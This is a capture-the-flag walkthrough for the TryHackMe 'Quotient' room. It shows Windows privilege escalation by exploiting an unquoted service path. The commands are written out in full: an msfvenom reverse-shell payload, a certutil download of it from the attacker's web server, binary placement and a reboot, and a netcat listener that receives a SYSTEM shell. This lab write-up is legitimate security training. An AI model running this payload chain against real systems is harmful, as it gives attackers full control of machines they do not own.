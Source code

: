 ## Link to tryhackme room

[quotient](https://tryhackme.com/room/quotient)

## Save target IP to a variable (NOTE: Your IP will be different)

`export target="10.10.136.60"`

## RDP to the target box  

```
xfreerdp /v:${target} /u:sage +clipboard                                                                                                                                                         127 ⨯ 2 ⚙
[12:55:19:113] [22656:22657] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[12:55:19:113] [22656:22657] [WARN][com.freerdp.crypto] - CN = thm-quotient
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.10.136.60:3389) 
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] - Common Name (CN):
[12:55:19:114] [22656:22657] [ERROR][com.freerdp.crypto] -      thm-quotient
[12:55:19:115] [22656:22657] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.10.136.60:3389 (RDP-Server):
        Common Name: thm-quotient
        Subject:     CN = thm-quotient
        Issuer:      CN = thm-quotient
        Thumbprint:  3c:45:3a:cc:63:da:97:61:e5:68:95:6f:e6:59:7a:38:1a:b3:24:b2:39:da:2b:44:c0:1e:6b:0e:0f:9d:62:42
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
Password:
```  

## Unquoted binary paths

Open a command prompt and search for services with unquoted binary paths:  

```
C:\Users\Sage>wmic service get name,displayname,pathname,startmode | findstr /i "auto"|findstr /i /v "c:\windows\\" | findstr /i /v """
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
```

Great! We've found a service that has an unquoted binary paths.  Next, let's create a tcp reverse shell, deliver it to the target box, and attempt to exploit this misconfiguration.  


## Create a tcp reverse shell

On attacker box create the reverse shell:    

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.0.25 LPORT=4445 -f exe-service -o Service.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: Service.exe
```

## Start up python web server on 

On the attacker box start the python web server to serve the payload

```
python3 -m http.server 8090                                                    
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
```

In an separate window also in the attacker box, start an netcat listener: `nc -lvnp 4445`  

## Download the reverse shell

On the victim box, download the payload

```
C:\Users\Sage>certutil -urlcache -split -f "http://10.9.0.25:8090/Service.exe" Service.exe
****  Online  ****
  0000  ...
  be00
CertUtil: -URLCache command completed successfully.
```

## Payload location

Let's try to place the payload within the execution path so it is executed before the "Service.exe" binary. We don't have access to create a file in "C:\" or "C:\Program Files", but we do have write access under "C:\Program Files\Development Files".  So let's rename our binary to Devservice.exe and place it in this directory:  
`C:\Users\Sage\>rename Service.exe Devservice.exe`  
`C:\Users\Sage\>move Devservice.exe "C:\Program Files\Development Files\"`  

Let's check the current status of the "Development Service" service:  
```
C:\Users\Sage>sc query "Development Service"

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```

It is currently stopped. Let's start up our listener on the attack box and attempt to start the service:  
- On attack box: `nc -lvnp 4445`  
- on victim box: `sc start "Development Service"  

Our attempt to start the service failed because we do not have sufficient privileges:  
```
C:\Users\Sage>sc start "Development Service"
[SC] StartService: OpenService FAILED 5:

Access is denied.
```

Let's see what privileges we do have:  
```
PS C:\Users\Sage> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Users\Sage>
```

Looks like we can reboot the victim box with the seShutdownPrivilege privilege and we did see from the wmic output that the "Development Service" auto starts.  so let's reboot the victim box and wait for a connection to our listener:  `shutdown /r /t 0`  

After a few minutes, we receive a callback to our listener:
```
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.9.0.25] from (UNKNOWN) [10.10.191.66] 49670
Microsoft Windows [Version 10.0.17763.3165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>


C:\Windows\system32>
```

Checking our privileges we see we have SYSTEM access:  
```
C:\Windows\system32>whoami
whoami
nt authority\system
```

Let's get flag and call it a day:  
```
C:\Windows\System32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 4448-19F9

 Directory of C:\Users\Administrator\Desktop

07/19/2022  01:23 PM    <DIR>          .
07/19/2022  01:23 PM    <DIR>          ..
07/19/2022  11:34 AM                17 flag.txt
               1 File(s)             17 bytes
               2 Dir(s)  25,160,310,784 bytes free

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
<REDACTED>
```
